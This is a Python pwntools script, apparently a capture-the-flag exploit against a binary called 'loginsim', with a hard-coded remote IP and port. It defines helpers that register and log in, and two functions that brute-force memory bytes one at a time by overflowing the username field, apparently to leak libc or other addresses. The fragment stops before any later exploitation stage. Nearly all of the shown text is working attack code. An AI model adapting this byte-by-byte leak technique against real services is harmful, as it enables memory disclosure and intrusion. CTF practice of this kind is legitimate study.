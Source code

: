 ```python
local_mote=1
elf='./loginsim'
e=ELF(elf)
#context.log_level = 'debug'
#context.arch=e.arch
ip_port=['167.99.205.117',30301]

debug=lambda : gdb.attach(p) if local_mote==1 else None


def add(mun,text):
    p.sendline('1')
    #sleep(0.2)
    p.recvuntil('{i} Username length:')
    p.sendline(str(mun))
    p.recvuntil('{i} Enter username:')
    p.sendline(text)
    
def login(text):
    #sleep(0.2)
    p.sendline('2')
    p.recvuntil('{i} Username:')
    p.send(text)


def gess_libc(n):

    #debug()
    for i in range(0x100):
        #i=0xff-i
       # sleep(0.1)
        add(0x20+n,'w'*0x20+'w'*(n-1)+chr(i))
       # sleep(0.2)
        p.recvuntil('->')
       
       #print(i)
       # sleep(0.1)
        login('w'*(0x20+n-1)+'\n')
        line=p.recvline()[:-1]
                    #print(i)
        if line!=' Invalid username! :)':
                        print(hex(i))
                        return i
    
    return 0xa
def gess(n):
    #debug()
    for i in range(0x100):
        #i=0xff-i
       # sleep(0.1)
        add(0x20+n,'w'*0x20+'w'*(n-1)+chr(i))
       # sleep(0.2)
        p.recvuntil('->')
       
       #print(i)
       # sleep(0.1)
        login('w'*(0x20+n-1)+'\n')
        line=p.recvline()[:-1]
                    #print(i)
        if line!=' Invalid username! :)':
                        print(hex(i))
                        return i
    
```